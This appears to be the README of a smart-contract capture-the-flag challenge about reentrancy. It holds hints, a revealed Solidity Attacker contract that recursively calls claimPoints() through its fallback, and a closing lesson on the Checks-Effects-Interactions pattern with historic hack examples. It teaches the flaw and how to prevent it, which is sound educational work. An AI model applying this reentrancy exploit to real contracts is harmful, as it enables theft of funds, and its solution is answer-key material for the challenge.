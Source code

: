 # Challenge 5: The Reentrancy Race

In this challenge, you need to accumulate enough points to mint a flag. However, points can only be claimed once... or can they?

## Contract Overview
The contract has three main functions:
- `claimPoints()`: Gives 1 point to the caller, but only if they haven't claimed before
- `resetPoints()`: Resets points to zero
- `mintFlag()`: Mints a flag if you have 10 or more points

## Hints
<details>
<summary>Hint 1</summary>
Notice the order of operations in <code>claimPoints()</code>. When does it check points? When does it update them?
</details>

<details>
<summary>Hint 2</summary>
The contract makes an external call before updating the points. What happens if we call back into the contract during this call?
</details>

<details>
<summary>Hint 3</summary>
The "Checks-Effects-Interactions" pattern isn't followed here. The state update happens after the external interaction!
</details>

## Solution
<details>
<summary>Click to reveal solution</summary>

Create a contract that recursively claims points through its fallback function:

<code>
contract Attacker {
    Challenge5 challenge;
    uint256 callCount = 0;

    fallback() external {
        if (callCount < 10) {
            callCount++;
            challenge.claimPoints();
        }
    }

    function attack() external {
        challenge.claimPoints();
    }
}
</code>

The attack works because:
1. Initial <code>claimPoints()</code> checks points (0)
2. Makes external call to our contract
3. Our fallback function calls <code>claimPoints()</code> again
4. Process repeats until we have enough points
5. State only updates after all recursive calls complete

Congratulations! You've exploited a classic reentrancy vulnerability! 🎉
</details>

Remember: Always update state BEFORE making external calls! The "Checks-Effects-Interactions" pattern exists to prevent exactly this type of vulnerability.

## Why This Matters
Reentrancy attacks are one of the most notorious vulnerabilities in smart contracts:

1. The DAO hack (2016, $60M lost) - The first major reentrancy attack that led to Ethereum's hard fork
2. The Cream Finance exploit (2021, $130M lost) - Complex reentrancy across multiple functions
3. The Fei Protocol hack (2022, $80M lost) - Reentrancy in flash loan functionality

This specific pattern of checking state, making an external call, and then updating state has led to numerous exploits.
